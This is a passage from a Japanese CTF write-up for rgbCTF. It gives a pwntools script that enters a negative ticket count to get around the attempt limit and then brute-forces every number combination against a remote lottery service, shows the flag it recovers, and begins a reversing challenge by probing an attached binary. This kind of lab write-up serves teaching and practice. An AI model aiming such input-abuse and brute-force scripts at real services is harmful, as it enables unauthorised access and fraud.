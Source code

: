 21 回以上試行できています。最初に試行回数として負数を入力して、5^5 回通り全てを試すようなスクリプトを書いて実行してみましょう。

```python
import itertools
from pwn import *

sock = remote('(省略)', 7425)
sock.recvuntil('How many tickets would you like to buy?')
sock.sendline('-1')

for nums in itertools.product(range(1, 6), repeat=5):
    sock.recvuntil('separated by spaces:\n')
    sock.sendline(' '.join(str(x) for x in nums))
    resp = sock.recvline()

    if 'Your ticket did not win' not in resp:
        break

sock.interactive()
sock.close()
```

```
$ python solve.py
[+] Opening connection to (省略) on port 7425: Done
[*] Switching to interactive mode
rgbCTF{s0m3t1m3s_4ll_y0u_n33d_1s_f0rc3}
Ticket number 513! Enter five numbers, separated by spaces:
```

フラグが得られました。

```
rgbCTF{s0m3t1m3s_4ll_y0u_n33d_1s_f0rc3}
```

## [Pwn/Rev 490] sadistic reversing 1 (30 solves)
> `[114, 20, 119, 59, 104, 47, 75, 56, 81, 99, 23, 71, 56, 75, 124, 31, 65, 32, 77, 55, 103, 31, 96, 18, 76, 41, 27, 122, 29, 47, 83, 33, 78, 59, 10, 56, 15, 34, 94]`
> 
> 添付ファイル: itJX.so

`so` という拡張子から共有ライブラリとわかりますが、実行権限を与えると実行することができました。

```
$ ./itJX.so 
Exception in thread "main" java.lang.ArrayIndexOutOfBoundsException: Index 0 out of bounds for length 0
        at sadrev.main(sadrev.java:5)
```

適当なコマンドライン引数を与えてみましょう。

```
$ ./itJX.so test
[116, 16, 98, 23]
$ ./itJX.so rgbpoyo
[114, 20, 119, 8, 102, 30, 112]
$ ./itJX.so rgbCTF{
[114, 20, 119, 59, 104, 47, 75]
```
